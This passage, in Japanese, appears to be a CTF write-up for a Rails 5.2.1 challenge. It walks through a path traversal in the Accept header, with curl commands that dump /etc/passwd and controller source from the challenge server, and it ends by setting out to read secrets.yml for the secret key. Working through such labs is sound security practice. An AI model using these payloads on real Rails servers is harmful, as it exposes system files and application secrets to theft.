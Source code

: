 > Rails 5.2.1で作られたサイトです｡

Ruby on Rails の最新版は 5.2.3 であり、[5.2.1 は 2018 年の 8 月にリリースされた古いバージョン](https://weblog.rubyonrails.org/2018/8/7/Rails-5-2-1-has-been-released/)です。これほど古いバージョンが使われるのは (作問者の怠惰でなければ) 何か意味があるはずです。

`rails 5.2.1 脆弱性` というキーワードでググってみると、[Rails 4, 5, 6における Security Fix について - ペパボテックブログ](https://tech.pepabo.com/2019/03/18/analysis-rails-vulnerabilities/)という記事がヒットしました。このバージョンの Rails ではパストラバーサルができるようです。

記事中のコマンドを改変して、この問題でも `/etc/passwd` が読めないか試してみましょう。

```
$ curl https://(省略)/storelists -H 'Accept: ../../../../../../etc/passwd{% raw %}{{{% endraw %}'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
miku:x:1000:1000::/home/miku:
```

読めました。katsudon の問題文にある `app/controllers/coupon_controller.rb` がなにか変わっていないか読んでみましょう。

```
$ curl https://(省略)/storelists -H 'Accept: ../../../app/controllers/coupon_controller.rb{% raw %}{{{% endraw %}'
class CouponController < ApplicationController
  def index
  end

  def show
    serial_code = params[:serial_code]
    msg_encryptor = ::ActiveSupport::MessageEncryptor.new(Rails.application.secrets[:secret_key_base][0..31], cipher: "aes-256-gcm")
    @coupon_id = msg_encryptor.encrypt_and_sign(serial_code)
  end
end
```

`secret_key_base` の先頭 32 バイトを鍵として、`aes-256-gcm` で暗号化しているようです。`secret_key_base` を得られないか、`config/secrets.yml` を読んでみましょう。
